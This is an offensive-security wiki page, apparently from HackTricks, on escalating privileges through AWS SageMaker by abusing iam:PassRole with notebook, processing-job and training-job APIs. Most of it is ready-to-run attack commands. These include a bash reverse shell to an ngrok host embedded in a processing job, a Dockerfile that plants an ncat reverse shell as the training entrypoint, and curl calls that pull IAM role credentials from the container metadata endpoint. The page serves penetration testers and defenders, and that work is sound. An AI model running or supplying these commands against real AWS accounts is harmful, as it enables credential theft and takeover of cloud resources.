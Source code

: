 # AWS - Sagemaker Privesc

## AWS - Sagemaker Privesc

{{#include ../../../banners/hacktricks-training.md}}

### `iam:PassRole` , `sagemaker:CreateNotebookInstance`, `sagemaker:CreatePresignedNotebookInstanceUrl`

Start creating a noteboook with the IAM Role to access attached to it:

```bash
aws sagemaker create-notebook-instance --notebook-instance-name example \
    --instance-type ml.t2.medium \
    --role-arn arn:aws:iam::<account-id>:role/service-role/<role-name>
```

The response should contain a `NotebookInstanceArn` field, which will contain the ARN of the newly created notebook instance. We can then use the `create-presigned-notebook-instance-url` API to generate a URL that we can use to access the notebook instance once it's ready:

```bash
aws sagemaker create-presigned-notebook-instance-url \
    --notebook-instance-name <name>
```

Navigate to the URL with the browser and click on \`Open JupyterLab\`\` in the top right, then scroll down to “Launcher” tab and under the “Other” section, click the “Terminal” button.

Now It's possible to access the metadata credentials of the IAM Role.

**Potential Impact:** Privesc to the sagemaker service role specified.

### `sagemaker:CreatePresignedNotebookInstanceUrl`

If there are Jupyter **notebooks are already running** on it and you can list them with `sagemaker:ListNotebookInstances` (or discover them in any other way). You can **generate a URL for them, access them, and steal the credentials as indicated in the previous technique**.

```bash
aws sagemaker create-presigned-notebook-instance-url --notebook-instance-name <name>
```

**Potential Impact:** Privesc to the sagemaker service role attached.

### `sagemaker:CreateProcessingJob,iam:PassRole`

An attacker with those permissions can make **sagemaker execute a processingjob** with a sagemaker role attached to it. The attacked can indicate the definition of the container that will be run in an **AWS managed ECS account instance**, and **steal the credentials of the IAM role attached**.

```bash
# I uploaded a python docker image to the ECR
aws sagemaker create-processing-job \
    --processing-job-name privescjob \
    --processing-resources '{"ClusterConfig": {"InstanceCount": 1,"InstanceType": "ml.t3.medium","VolumeSizeInGB": 50}}' \
    --app-specification "{\"ImageUri\":\"<id>.dkr.ecr.eu-west-1.amazonaws.com/python\",\"ContainerEntrypoint\":[\"sh\", \"-c\"],\"ContainerArguments\":[\"/bin/bash -c \\\"bash -i >& /dev/tcp/5.tcp.eu.ngrok.io/14920 0>&1\\\"\"]}" \
    --role-arn <sagemaker-arn-role>

# In my tests it took 10min to receive the shell
curl "http://169.254.170.2$AWS_CONTAINER_CREDENTIALS_RELATIVE_URI" #To get the creds
```

**Potential Impact:** Privesc to the sagemaker service role specified.

### `sagemaker:CreateTrainingJob`, `iam:PassRole`

An attacker with those permissions will be able to create a training job, **running an arbitrary container** on it with a **role attached** to it. Therefore, the attcke will be able to steal the credentials of the role.

> [!WARNING]
> This scenario is more difficult to exploit than the previous one because you need to generate a Docker image that will send the rev shell or creds directly to the attacker (you cannot indicate a starting command in the configuration of the training job).
>
> ```bash
> # Create docker image
> mkdir /tmp/rev
> ## Note that the trainning job is going to call an executable called "train"
> ## That's why I'm putting the rev shell in /bin/train
> ## Set the values of <YOUR-IP-OR-DOMAIN> and <YOUR-PORT>
> cat > /tmp/rev/Dockerfile <<EOF
> FROM ubuntu
> RUN apt update && apt install -y ncat curl
> RUN printf '#!/bin/bash\nncat <YOUR-IP-OR-DOMAIN> <YOUR-PORT> -e /bin/sh' > /bin/train
> RUN chmod +x /bin/train
> CMD ncat <YOUR-IP-OR-DOMAIN> <YOUR-PORT> -e /bin/sh
> EOF
>
> cd /tmp/rev
> sudo docker build . -t reverseshell
>
> # Upload it to ECR
> sudo docker login -u AWS -p $(aws ecr get-login-password --region <region>) <id>.dkr.ecr.<region>.amazonaws.com/<repo>
> sudo docker tag reverseshell:latest <account_id>.dkr.ecr.<region>.amazonaws.com/reverseshell:latest
> sudo docker push <account_id>.dkr.ecr.<region>.amazonaws.com/reverseshell:latest
> ```

```bash
# Create trainning job with the docker image created
aws sagemaker create-training-job \
    --training-job-name privescjob \
    --resource-config '{"InstanceCount": 1,"InstanceType": "ml.m4.4xlarge","VolumeSizeInGB": 50}' \
    --algorithm-specification '{"TrainingImage":"<account_id>.dkr.ecr.<region>.amazonaws.com/reverseshell", "TrainingInputMode": "Pipe"}' \
    --role-arn <role-arn> \
    --output-data-config '{"S3OutputPath": "s3://<bucket>"}' \
    --stopping-condition '{"MaxRuntimeInSeconds": 600}'

#To get the creds
curl "http://169.254.170.2$AWS_CONTAINER_CREDENTIALS_RELATIVE_URI"
## Creds env var value example:/v2/credentials/proxy-f00b92a68b7de043f800bd0cca4d3f84517a19c52b3dd1a54a37c1eca040af38-customer
```

**Potential Impact:** Privesc to the sagemaker service role specified.

### `sagemaker:CreateHyperParameterTuningJob`, `iam:PassRole`

An attacker with those permissions will (potentially) be able to create an **hyperparameter training job**, **running an arbitrary container** on it with a **role attached** to it.\
&#xNAN;_&#x49; haven't exploited because of the lack of time, but looks similar to the previous exploits, feel free to send a PR with the exploitation details._

## References

- [https://rhinosecuritylabs.com/aws/aws-privilege-escalation-methods-mitigation-part-2/](https://rhinosecuritylabs.com/aws/aws-privilege-escalation-methods-mitigation-part-2/)

{{#include ../../../banners/hacktricks-training.md}}




